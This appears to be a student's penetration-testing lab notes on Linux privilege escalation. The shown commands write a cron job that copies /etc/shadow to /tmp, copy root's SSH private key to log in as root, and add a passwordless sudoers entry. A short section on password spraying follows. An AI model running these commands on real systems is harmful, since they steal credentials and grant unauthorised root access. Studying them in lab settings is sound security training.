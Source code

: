 - we have write access
- lets copy the shadow file to tmp/shadow

```
echo -e '\#!/bin/bash\n/bin/cat /etc/shadow > /tmp/shadow' > /etc/cron.hourly/oddjob
```

- in the min 17 of every hour, as the crontab shows... 
- our command will be executed, so the shadow will be copied to the temp folder

### another method
- we have access to the /root folders, but we cant list files
- we can see that .ssh exists, but we cant access
- we cant access, but we can try to access the file id_rsa inside the .ssh
- that is a common file

```
cat /root/.ssh/id_rsa
```

// we have the RSA PRIVATE KEY
// to access the ssh

// check if the public key authentication is available
```
cat /etc/ssh/sshd_config | grep Pub
	PubkeyAuthentication yes
```

- create a .ssh in the user /home folder
- copy the id_rsa file to this folder
- and give the property permission

```
cd /home/lowpriv/
mkdir .ssh
cp /root/.ssh/id_rsa /home/lowpriv/.ssh/.
chmod 600 id_rsa
```

// now we can access the root@localhost via ssh 

```
ssh -i /home/lowpriv/.ssh/id_rsa root@localhost
```

### 2nd time
```
grep -nri "/tmp/message" /usr
printf '#! /bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers'
```


# Exploitation over the Network


## Password Spray Attack
- trying just a single password attempt against tens or hundreds of user accounts.
- reduces the risk of account lockout
- help us stay **under the radar**
- aka Reverse-Brute-force attack
